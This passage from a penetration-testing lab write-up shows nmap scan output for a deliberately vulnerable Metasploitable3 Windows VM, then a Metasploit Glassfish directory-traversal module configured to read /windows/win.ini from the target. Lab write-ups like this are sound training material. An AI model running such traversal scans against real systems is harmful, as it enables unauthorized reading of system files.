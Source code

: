 ```
|     Content-Length: 0
|   RTSPRequest, SIPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain; charset=UTF-8
|_    Content-Length: 0
49153/tcp open  msrpc             Microsoft Windows RPC
49154/tcp open  msrpc             Microsoft Windows RPC
49202/tcp open  java-rmi          Java RMI
49203/tcp open  tcpwrapped
49250/tcp open  msrpc             Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9200-TCP:V=7.80%I=7%D=8/30%Time=5F4BFD44%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,18C,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\x20application/js
SF:on;\x20charset=UTF-8\r\nContent-Length:\x20309\r\n\r\n{\r\n\x20\x20\"st
SF:atus\"\x20:\x20200,\r\n\x20\x20\"name\"\x20:\x20\"Wolfsbane\",\r\n\x20\
SF:x20\"version\"\x20:\x20{\r\n\x20\x20\x20\x20\"number\"\x20:\x20\"1\.1\.
SF:1\",\r\n\x20\x20\x20\x20\"build_hash\"\x20:\x20\"f1585f096d3f3985e73456
SF:debdc1a0745f512bbc\",\r\n\x20\x20\x20\x20\"build_timestamp\"\x20:\x20\"
SF:2014-04-16T14:27:12Z\",\r\n\x20\x20\x20\x20\"build_snapshot\"\x20:\x20f
SF:alse,\r\n\x20\x20\x20\x20\"lucene_version\"\x20:\x20\"4\.7\"\r\n\x20\x2
SF:0},\r\n\x20\x20\"tagline\"\x20:\x20\"You\x20Know,\x20for\x20Search\"\r\
SF:n}\n")%r(HTTPOptions,4F,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReque
SF:st,4F,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain;\x20charse
SF:t=UTF-8\r\nContent-Length:\x200\r\n\r\n")%r(FourOhFourRequest,A9,"HTTP/
SF:1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charse
SF:t=UTF-8\r\nContent-Length:\x2080\r\n\r\nNo\x20handler\x20found\x20for\x
SF:20uri\x20\[/nice%20ports%2C/Tri%6Eity\.txt%2ebak\]\x20and\x20method\x20
SF:\[GET\]")%r(SIPOptions,4F,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\n");
MAC Address: 08:00:27:C2:F0:69 (Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 30 15:29:37 2020 -- 1 IP address (1 host up) scanned in 233.56 seconds
```

## Vulnerability Discovery

As seen in the `nmap` scan above, there are many outdated services running on this Windows Server 2008 R2 Metasploitable3 instance.
When there are so many outdated services running on a host like this, I like to do a quick check for known remote code execution vulnerabilities that exist in the software.

### Glassfish (Port 4848)

Vulnerable to directory traversal.
You will need to enable SSL for the directory traversal to work. 

```
msf5 auxiliary(scanner/http/glassfish_traversal) > show options

Module options (auxiliary/scanner/http/glassfish_traversal):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   DEPTH     13                yes       Depth for Path Traversal
   FILEPATH  /windows/win.ini  yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    172.28.128.4      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     4848              yes       The target port (TCP)
```